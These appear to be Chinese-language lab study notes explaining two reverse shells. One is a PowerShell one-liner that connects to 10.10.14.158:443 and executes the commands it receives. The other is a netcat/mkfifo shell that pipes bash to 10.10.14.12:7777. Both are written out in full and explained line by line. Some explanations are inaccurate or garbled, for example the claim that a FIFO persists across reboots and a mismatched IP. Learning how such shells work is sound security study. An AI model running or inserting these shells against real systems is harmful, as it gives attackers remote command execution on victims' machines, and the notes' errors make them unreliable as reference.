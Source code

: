 ```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```
逐行解析为下：
1powershell -nop -c  命令行参数 
-nop 是以无控制台输出  静默输出方式进行
-c是单行命令 就不用分段编写了
并且告诉可以直接用cmd.exe执行
2 "$client = New-Object System.Net.Sockets.TCPclient('10.10.14.158,443')"
$client创建了=cmdlet的变量 new-object   其中这个cmdlet代指的是创建新的对象实例 允许通过指定的对象类型跟属性来创建对象
创建了tcp客户端对象链接到 ip地址的地方 主机端
3 "$stream = $client.GetStream();"这个获取了tcp客户端关联的网络流 
引入了关于getstream 的$clients的相关方法内容    这个方法具体是“
https://learn.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0
4“[byte[]]$bytes = 0..65535|%{0};”初始化字节数组 保存网络流中读取的数据
创建一个空字节用来存放byte的65535的字节信息 设置存放字节为0-65535的信息  以用来存放 tcp侦听器
5开启循环 ，循环持续执行，直到读取数据长度是0 
6网络流读取字节数据转换为ascii编码
7$sendback =(iex $data 2>&1 | out-string ); 执行是字符串执行命令并且捕获其输出 并且让其结果转换为字符串
8$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';  这个是 将其pwd 命令指的死幻将当期那目录链接起立
9$stream.Write($sendbyte ,0 $sendbyte.length);"


netcat的一些例子
1 ：```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f                        
```

一些具体的例子
```
分句解析:
1 rm -f /tmp/f：删除/tmp/f文件 并且-f 选项导致忽略不存在的文件
2 mkfifo 制作一个 新的/tmp/f 管道文件
其中什么是mkfifo呢？
fifo：命名管道  其目的是作为文件系统的一部分进行访问 ，打开的时候通过多个进程进行读取写入工鞥，想内核传递数据并且不需要写入文件系统重
文件系统当做目录进行访问 
3 cat /tmp/f 打开这个管道命名的文件，后并且连接到 
4/bin/bash -i 2>&1 |  打开/bin/bash 系统 -i确保 有交互 2>&1确保所有的标准错误数据 到标准输出数据都传输到 |后面命令 ，可以看到交互是否发生的同时了解到错误信息是什么 
5 nc 10.10.14.22 7777 在受害者段进行开启7777端口 并且 链接到攻击机 的7777端口中，并且输出重定向到 /tmp/777内容中  

总体思路:
有几个要点 
(1) ：为什么放到tmp目录下原因如下：tmp目录中所有文件都有写的权限，这样放便把攻击的脚本写进去  2 tmp中是linux 存储临时文件的地方，这样做可以保证操作的安全性等问题，第三个 /tmp有普遍性 
 (2):为什么用mkfifo进行呢？答：1 因为mkfifo管道创建保证了不会被截胡，采取两头通信直达系统内核并且可以调用ipc通信 /bin/bash控制台 
 mkfifo 是持久化 在进行重启后依旧可以存在 的同时并且允许双向通信
 (3)为什么用mkfifo 不用mkdir呢？
 因为 mkdir 是创建文件不是进行进程通信创建能力，mkfifo采用特殊机制进行 
